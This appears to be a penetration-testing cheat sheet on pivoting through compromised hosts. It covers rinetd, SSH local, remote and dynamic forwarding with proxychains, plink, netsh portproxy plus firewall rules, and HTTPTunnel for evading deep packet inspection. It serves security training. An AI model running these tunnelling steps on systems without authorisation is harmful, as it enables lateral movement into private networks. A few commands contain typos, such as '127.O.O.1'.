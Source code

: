 ## Port Forwarding

RINETD is a tool that helps us to achieve port forwarding. Once this tool is installed we need to add the forwarding rules on the next file:

```bash
#file: /etc/rinetd.conf
#Add the following line under forwarding rules:
0.0.0.0 $PORT $IPADDRESS $PORT

#For example, forward any incoming web access to the 1.2.3.4 server:
0.0.0.0 80 1.2.3.4 80

#Once done, restart the service and watch if it's active:
sudo service rinetd restart
ss -antp | gre "$PORT"
```

_____

## SSH Port Forwarding

Imagine we discovered an internet network on a compromised machine. We can use SSH tunneling to stablish connection from our Kali to this machine (using the compromised machine as a tunnel):

```bash
ssh -N -L 0.0.0.0:$PORT:$IPADDRESS:$PORT $USER@$IPADDRESS2
#-N: No command prompt
#-L: Local port forward
#$PORT: Port to forward
#$IPADDRESS: IP address of the internal network machine
#$USER: User on the compromised machine to log in as SSH
#$IPADDRESS2: IP address of the compromised machine
```
____
## SSH Remote Port Forwarding

Same as SSH Port forwarding but in this case executed inside the compromised machine, to bind a port from this machine to our Kali machine:

```bash
ssh -N -R $IPKALI:$PORT:127.O.O.1:$PORT kali@$IPKALI
```

Then we can interact with the remote port from our attacker machine:

```bash
nmap -sS -p$PORT 127.0.0.1
```

____

## SSH Dynamic port Forwarding

The following method will be used to get connectivity to all the ports from our Kali machine to the Internal machine, using the compromised linux client as intermediary.

First of all we need to configure proxychains:

```bash
nano /etc/proxychains.conf
#add the following line imder [ProxyList]
socks4 127.0.0.1 8080
```

Now create the Dynamic port forwarding:

```bash
ssh -N -D 127.0.0.1:8080 $COMPROMISEDUSER@$COMPROMISEDIPADDRESS
```

Note: In order to effectively use this method we need to start the applications through proxychains. For example:

```bash
proxychains nmap -sS -p- $INTERNALNETWORKIP
```

_____

## SSH Dynamic for Windows - PLINK

We can use the above techniques in Windows  thanks to the PLINK.exe tool:

```bash
#-R: Reverse, but we can use -L for local and -D for dynamic:
cmd.exe /c echo y | plink.exe -ssh -l $USERNAME -pw $PASSWORD -R $KALIIP:$PORT:127.0.0.1:$PORT $KALIIP
```

_____

## Windows port Forwarding - NETSH

Imagine we have compromised a Windows client and it's connected to an internal network which we do not have access from our Kali machine. We can pivot to any internal machine thanks to netsh:

Note: Execute all the commands on the compromised machine.

First of all we need to add the following firewall rule to enable inbound traffic from the desired port:

```bash
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=$COMPROMISEDIPADDRESS localport=$LOCALPORTTOUSE action=allow
#LOCALPORTTOUSE: If we want 445, use 4455. If we want 3306, use 33306...
```

Now execute the following netsh command:

```bash
netsh interface portproxy add v4tov4 listenport=$LOCALPORTTOUSE listenaddress=$COMPROMISEDIPADDRESS connectport=$INTERNALPORT connectaddress=$INTERNALIPADDRESS
```

Now we can interact with the internal machine port using the IP address and port of the compromised machine.

_____

## Tunneling using HTTP protocol - HTTPTunnel

We will rely on HTTPTunnel to encapsulate our traffic within HTTP requests, creating an “HTTP tunnel”.

**Scenario:** Compromised Linux machine that have access to an internal network which is not accessible from our Kali machine. Also, only http traffic is allowed.

```bash
#Local port forward to the internal network:
ssh -L 0.0.0.0:8888:$IPINTERNALNETWORK:$PORTINTERNALNETWORK $USER@127.0.0.1

#Use HTTPServer to redirect incoming traffic from 1234 to 8888 port:
hts --forward-port localhost:8888 1234
```

In our Kali machine:

```bash
htc --forward-port 8080 $COMPROMISEDIPADDRESS:$PORT
```

Now everything will be encapsulated as HTTP protocol to evade Deep Packet Inspection.

